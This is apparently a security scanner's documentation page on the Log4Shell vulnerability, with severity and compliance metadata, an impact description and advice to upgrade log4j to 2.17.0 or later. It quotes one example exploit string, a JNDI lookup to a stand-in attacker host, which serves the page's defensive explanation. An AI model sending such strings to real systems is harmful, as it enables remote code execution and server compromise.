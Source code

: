 ```yaml
---
name: Log4Shell
severity: high
cvss-score: 10.0
cvss-vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
cwe-id: CWE-917
cwe-name: Improper Neutralization of Special Elements used in an Expression Language
  Statement ('Expression Language Injection')
compliance:
  HIPAA: 164.306(a)
  ISO 27001: A.5.33, A.5.34, A.8.3, A.8.9, A.8.12
  owasp10: A3
  pci: 6.5.1
  PCI v4.0: pci4-6.2.4

---            
```


A remote code execution vulnerability (RCE) allows the attacker to execute arbitrary code and operating system commands on the server. In the worst-case scenario, the attacker will be able to fully compromise the server, extract sensitive data, modify the application contents or delete data.

The log4j RCE vulnerability can be easily exploited. All you need is to find a vulnerable version of log4j, an endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send the exploit string (e.g. ${jndi:ldap://attacker.com/a}), and a log statement that logs out the string from that request.

## How to fix

{% tabs log4shell %}
{% tab log4shell generic %}
To fix the Log4Shell vulnerability, you need to update all instances of log4j to version 2.17.0 or above.
{% endtab %}

{% endtabs %}
